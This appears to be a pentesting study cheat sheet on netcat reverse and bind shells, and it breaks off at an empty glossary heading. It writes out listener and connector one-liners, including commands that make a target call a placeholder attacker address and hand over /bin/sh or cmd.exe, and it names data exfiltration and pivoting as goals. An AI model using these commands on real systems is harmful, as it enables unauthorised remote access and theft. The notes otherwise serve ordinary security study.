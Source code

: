 
## Quick-Use

**Commands**:
- `netcat`
    - REVERSE SHELL: **Hacker <--- Target**
        - *Listener* -- `nc -lvp 4444` - Attacker's setup, `-lvp` means "listening, verbose, port". So this says to "listen for a process connection on port 4444"
        - *Connector* -- *Linux*: `nc ATTKRIPADDR 4444 -e /bin/sh` | *Win*: `nc ATTKRIPADDR 4444 -e cmd.exe` - Target's setup, `-e` means establish. So this says "connect to the IP address at port 4444 and establish a running `/bin/sh` process (`shell`)"
    - BIND SHELL: **Hacker ---> Target**
        - *Connector* -- `nc TRGTIPADDR 4444` - Attacker's setup. This says to "request a connection to the IP address at port 4444 and accept the service they establish"
        - *Listener* -- *Linux*: `nc -lvp 4444 -e /bin/sh` | *Win*: `nc -lvp 4444 -e cmd.exe` - Target's setup, `-e` means establish. So this says "listen to port 4444 and establish a running `/bin/sh` process (`shell`) when a connection is established"

*Tools*:
- `netcat` - CLI - (in this context) usually used to gain a reverse shell

## General

**Objectives**: Establish a connection on target to allow shell executable commands. Can exfiltrate data, gain more enumeration on target, or pivot to higher value.

**Overview**:
There are two main types of remote access shells:
- Reverse Shells - most common shell (95% of the time according to Heath) - victim connects to attacker (**Hacker <--- Target**)
- Binding Shells - More common on External assessments - Attacker connects to target (**Hacker ---> Target**)
## Glossary